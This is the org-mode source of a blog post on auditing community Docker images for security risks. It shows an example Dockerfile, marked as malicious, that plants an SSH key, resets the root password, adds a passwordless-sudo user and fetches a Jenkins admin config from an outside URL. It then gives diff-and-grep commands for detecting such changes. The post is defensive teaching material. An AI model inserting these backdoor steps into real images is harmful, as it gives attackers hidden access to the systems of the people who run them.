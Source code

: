 * Audit Docker Image Security                                   :BLOG:Docker:
  :PROPERTIES:
  :type:     DevOps,Docker,Security,Popular
  :END:
---------------------------------------------------------------------
Nowadays people are happy to use community Docker images. It's super fast and easy to setup infrastructure, compared to old black days. But watch out security risks hidding inside!

Ignoring them could result in serious damages sooner or later. *How to easily identity security holes inside docker images*?

[[image-blog:Docker Image Security][https://www.dennyzhang.com/wp-content/uploads/denny/docker_image_scan.jpg]]

---------------------------------------------------------------------
** Common Security Issues Inside Public Docker Images
Here is a simple example. Doubtless it will misleading and hard to diagnose in real world.

- In L18-19, a ssh key is injected to to authorized_keys. If you start sshd, you're in danger.
- In L22, root password has been reset. Not good, isn't it?
- In L25-26, a malicious OS user has been added.
- In L29-31, the user has been promoted as super admin, and he/she can run any commands without password!
- In L34-36, your jenkins has an unpleasant admin user now. Yes, Jenkins is hot and popular. You can do a lot of things with Jenkins. So do the hackers! This case represents *security of application layer*. It's certainly the most dangerous and difficult case.
#+BEGIN_EXAMPLE -n
########## How To Use Docker Image ###############
##
##  Install docker utility
##  Download docker image:
##   docker pull denny/test:v1
##  Boot docker container:
##   docker run -t -P -d --name my-test denny/test:v1 /bin/bash
##
##  Build Image From Dockerfile.
##   docker build -f Dockerfile -t denny/test:v1 --rm=false .
##################################################

FROM ubuntu:14.04
MAINTAINER Denny <denny@dennyzhang.com>

RUN mkdir -p /root/.ssh && \
  # SSH login by key file
  echo "ssh-rsa AAAAB3NzaC1...lOvno6KN5 denny@dennyzhang.com" \
       >> /root/.ssh/authorized_keys && \

  # Reset root password
  echo 'root:ChangeMe1' | chpasswd && \

  # Add a malicious user
  useradd denny && \
  echo 'denny:ChangeMe1' | chpasswd && \

  # Add user to super admin
  echo '%denny ALL=(ALL:ALL) NOPASSWD: ALL' > \
        /etc/sudoers.d/admins && \
  chmod 400 /etc/sudoers.d/admins && \

  # Add superadmin user to
  mkdir -p /var/lib/jenkins/users/superadmin && \
  wget -O /var/lib/jenkins/users/superadmin/config.xml \
    https://github.com/dennyzhang/devops_public/raw/tag_v6/doc/admin_conf_xml

CMD ["/bin/bash"]
#+END_EXAMPLE
** Dump Change List Of Docker Images
Apparently we still want to use community docker images. Just need to rule out insecure ones. Also audit potential security risks as many as possible. Docker images are built directly or indirectly from golden images provided by trusted sources. Original golden docker images are usually clean. *So literally speaking, what changes community docker images have made*?

People can inspect change of docker containers by "[[https://docs.docker.com/engine/reference/commandline/diff][docker diff $container_id]]". Unfortunately docker doesn't support [[https://github.com/docker/docker/issues/12641][images comparison]]. Here is a feasible workaround:
- List all files in golden image like below.
#+BEGIN_EXAMPLE
container_name="container1"
docker_image="ubuntu:14.04"
result_list="/tmp/list1.txt"
docker stop $container_name; \
 docker rm $container_name || true
# Start a container from golden image
docker run -t --name $container_name \
 -d $docker_image /bin/bash

# List all files inside the container
docker export $container_name | \
  docker run -i --rm ubuntu tar tvf - \
  > $result_list

# Check the list
tail $result_list
# drwxr-xr-x 0/0      0   2016-08-02 08:26 bin/
# -rwxr-xr-x 0/0  21112   2014-10-07 19:22 bin/bash
# -rwxr-xr-x 0/0  31152   2013-10-21 13:15 bin/bunzip2
# lrwxrwxrwx 0/0      0   2013-10-21 13:15 bin/bzcmp -> bzdiff
# -rwxr-xr-x 0/0   2140   2013-10-21 13:15 bin/bzdiff
# ...
#+END_EXAMPLE

- List all files in problematic image. Note it might take tens of minutes for large images.
#+BEGIN_SRC sh
container_name="container2"
docker_image="denny/gitlab:v1"
result_list="/tmp/list2.txt"
docker stop $container_name; \
 docker rm $container_name || true
# Start a container from golden image
docker run -t --name $container_name \
 -d $docker_image /bin/bash

# List all files inside the container
docker export $container_name | \
  docker run -i --rm ubuntu tar tvf - \
  > $result_list

# Check the list
tail $result_list
#+END_SRC

- Compare Two list
#+BEGIN_EXAMPLE
result1="/tmp/list1.txt"
result2="/tmp/list2.txt"
diff_result="/tmp/diff.txt"

diff $result1 $result2 > $diff_result

tail $diff_result
# > drwxr-xr-x 0/0     0  2015-12-20 13:34 var/spool/postfix/pid/
# > drwx------ 103/0   0  2015-12-20 13:34 var/spool/postfix/private/
# > drwx--s--- 103/0   0  2015-12-20 13:34 var/spool/postfix/public/
# > drwx------ 103/0   0  2015-12-20 13:34 var/spool/postfix/saved/
#+END_EXAMPLE

- Check for security vulnerability
#+BEGIN_SRC sh
diff_result="/tmp/diff.txt"

# Check ssh authorized login
grep authorized_keys $diff_result

# check OS users
grep "etc/group" $diff_result

# Check sudo users
grep "etc/sudoers.d" $diff_result

# Check ssh key pair
grep ".ssh/.*id_rsa" $diff_result

# Add your checks in below
# ...
# ...
#+END_SRC

After the test, remember to remove useless containers.

Posts: [[https://www.dennyzhang.com/tag/docker][Tag #docker]]
[display-posts tag="docker" posts_per_page="20"]
#+BEGIN_HTML
<a href="https://github.com/dennyzhang/www.dennyzhang.com/tree/master/posts/shell_to_python"><img align="right" width="200" height="183" src="https://www.dennyzhang.com/wp-content/uploads/denny/watermark/github.png" /></a>

<div id="the whole thing" style="overflow: hidden;">
<div style="float: left; padding: 5px"> <a href="https://www.linkedin.com/in/dennyzhang001"><img src="https://www.dennyzhang.com/wp-content/uploads/sns/linkedin.png" alt="linkedin" /></a></div>
<div style="float: left; padding: 5px"><a href="https://github.com/dennyzhang"><img src="https://www.dennyzhang.com/wp-content/uploads/sns/github.png" alt="github" /></a></div>
<div style="float: left; padding: 5px"><a href="https://www.dennyzhang.com/slack" target="_blank" rel="nofollow"><img src="https://slack.dennyzhang.com/badge.svg" alt="slack"/></a></div>
</div>

<br/><br/>
<a href="http://makeapullrequest.com" target="_blank" rel="nofollow"><img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg" alt="PRs Welcome"/></a>
#+END_HTML
* org-mode configuration                                           :noexport:
#+STARTUP: overview customtime noalign logdone showall
#+DESCRIPTION: 
#+KEYWORDS: 
#+AUTHOR: Denny Zhang
#+EMAIL:  denny@dennyzhang.com
#+TAGS: noexport(n)
#+PRIORITIES: A D C
#+OPTIONS:   H:3 num:t toc:nil \n:nil @:t ::t |:t ^:t -:t f:t *:t <:t
#+OPTIONS:   TeX:t LaTeX:nil skip:nil d:nil todo:t pri:nil tags:not-in-toc
#+EXPORT_EXCLUDE_TAGS: exclude noexport
#+SEQ_TODO: TODO HALF ASSIGN | DONE BYPASS DELEGATE CANCELED DEFERRED
#+LINK_UP:   
#+LINK_HOME: 
